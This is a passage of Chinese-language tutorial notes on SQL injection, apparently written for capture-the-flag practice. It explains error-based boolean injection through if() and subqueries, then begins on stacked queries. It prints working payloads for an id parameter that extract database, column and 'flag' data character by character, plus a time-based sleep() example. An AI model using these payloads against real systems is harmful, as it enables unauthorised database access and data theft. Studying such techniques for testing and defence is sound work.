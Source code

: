 >  也就是说`1 and 1=1`和`1 and 1=2`回显的内容都一样，而`1' anaa`却会回显报错。



也就是说此处  通过报错的方式来bool注入。本身返回的结果中有没有数据，并不回显。只有sql语句报错才会回显





payload:

```
?id=(if(length(database())>1,1,(select table_name from information_schema.tables)))
```

> 此处是通过`if`返回的数据，构造出报错。此处不能使用extractvalue等。因为它本身直接就会引发报错。
>
> 而此处，通过`if`判断式，正确的话，返回1继续查询。错误的话返回结果集，构成报错前端回显。



```
(if(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() limit 0,1),1,1)='a',1,(select table_name from information_schema.tables)))

(if(substr((select group_concat(flag) from flag),1,1)='a',1,(select table_name from information_schema.tables)))
```



此处没有`''`或`""包裹数据`。如果有的话：

```
?id=1' and if(length(database())>1,1,(select table_name from information_schema.tables))='1	
```



### 堆叠查询注入攻击



堆叠查询其本质就是构建多条SQL语句。



和`union`，盲注，报错注入，cookie注入不同的是：

​	以上注入方式，全都是通过构建SQL语句：`union`，`updatexml,extractvale`，盲注切分字符串



而堆叠注入的本质是通过构建多条sql语句。





#### 实例1

> 当然，堆叠注入不止这种方式，还可以用`union`方式，和盲注方式。如：
>
> ```
> 1';select if(substr((database()),1,1)='a',sleep(5),1);#
> ```
